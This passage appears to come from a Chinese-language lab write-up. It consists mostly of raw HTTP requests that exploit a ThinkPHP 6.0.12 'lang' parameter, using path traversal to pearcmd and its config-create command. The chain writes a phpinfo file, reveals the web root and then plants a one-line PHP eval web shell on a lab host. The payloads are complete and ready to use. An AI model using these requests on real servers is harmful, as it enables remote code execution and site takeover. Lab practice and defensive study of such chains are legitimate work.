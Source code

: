 



![image-20241124083543963](https://image.201068.xyz/assets/writeup/image-20241124083543963.png)

```bash
GET /index.php?lang=../../../../../../../../../../usr/share/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.26.101
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

![image-20241124095648412](https://image.201068.xyz/assets/writeup/image-20241124095648412.png)

```bash
GET /index.php?lang=../../../../../../../../../../tmp/hello HTTP/1.1
Host: 192.168.26.101
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```

![6182b5f99c02a1c044338205cc7ae46](https://image.201068.xyz/assets/40.HGP靶场WriteUp/6182b5f99c02a1c044338205cc7ae46.png)

```bash
/www/wwwroot/127.0.0.1/thinkphp-v6.0.12/public/
```



#### 一句话木马

```bash
GET /index.php?lang=../../../../../../../../../../usr/share/php/pearcmd&+config-create+/<?=@eval($_REQUEST['xxx']);?>+/www/wwwroot/127.0.0.1/thinkphp-v6.0.12/public/xxx.php HTTP/1.1
Host: 192.168.26.101
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive


```
